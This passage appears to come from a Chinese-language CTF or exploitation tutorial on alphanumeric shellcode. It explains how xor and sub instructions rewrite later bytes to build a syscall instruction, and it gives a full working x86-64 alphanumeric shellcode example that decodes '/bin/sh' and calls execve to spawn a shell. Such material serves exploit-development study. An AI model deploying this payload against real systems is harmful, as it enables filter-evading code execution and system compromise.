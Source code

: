```c
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0
```

一般而言,  我们采用`xor`或者`sub`指令修改shellcode后面的值，构造`0f 05`， 实现syscall。

一个例子(纯字母数字shellcode):

```c
// ref: https://hama.hatenadiary.jp/entry/2017/04/04/190129
/* from call rax */
push rax
push rax
pop rcx

/* XOR pop rsi, pop rdi, syscall */
push 0x41413030
pop rax
xor DWORD PTR [rcx+0x30], eax

/* XOR /bin/sh */
push 0x34303041
pop rax
xor DWORD PTR [rcx+0x34], eax
push 0x41303041
pop rax
xor DWORD PTR [rcx+0x38], eax

/* rdi = &'/bin/sh' */
push rcx
pop rax
xor al, 0x34
push rax

/* rdx = 0 */
push 0x30
pop rax
xor al, 0x30
push rax
pop rdx

push rax

/* rax = 59 (SYS_execve) */
push 0x41
pop rax
xor al, 0x7a

/* pop rsi, pop rdi*/
/* syscall */ 
.byte 0x6e
.byte 0x6f
.byte 0x4e
.byte 0x44

/* /bin/sh */
.byte 0x6e
.byte 0x52
.byte 0x59
.byte 0x5a
```